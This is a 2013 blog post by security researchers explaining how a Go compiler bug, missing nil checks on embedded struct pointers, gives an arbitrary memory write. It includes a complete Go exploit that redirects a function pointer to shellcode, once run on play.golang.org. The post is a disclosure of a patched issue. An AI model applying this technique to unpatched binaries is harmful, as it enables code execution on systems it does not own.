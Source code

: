 Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for helping to find the underlying cause/writing the patch. Here is a summary of how we did it.

<h3>Introduction</h3>
Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go
exploit using <a href="https://code.google.com/p/go/issues/detail?id=5336">this
issue</a>. geohot and I had a wager over who could get the first remote code
execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but
just barely ;-). Props also to ricky for helping to find the underlying
cause/writing the patch. Here is a summary of how we did it.

Note: [play.golang.org](http://play.golang.org) is properly sandboxed, so 
code execution there does not
actually let you do anything. Had this been a more serious bug that could
actually be used for anything malicious, we would have immediately reported it
privately.

This post is cross posted on the [PPP blog](http://ppp.cylab.cmu.edu/wordpress/?p=1087).

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The problem comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=5336
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the [issue](https://code.google.com/p/go/source/detail?r=37bf155bc78073d51c0b5706a4f3fba19cca67f4)
was fixed. I also think it is important for Go to add the protections
that come now standard with C binaries (ASLR, NX) - I posted 
[an article](|filename|/security/securing_and_exploiting_go_binaries.md) 
earlier about security in Go where I strongly advocated those protections. 
Luckily, Go 1.1. will be adding some of these protections: specificially, the 
above exploit will not work because [Go 1.1  uses a non-executable heap and stack](https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0).
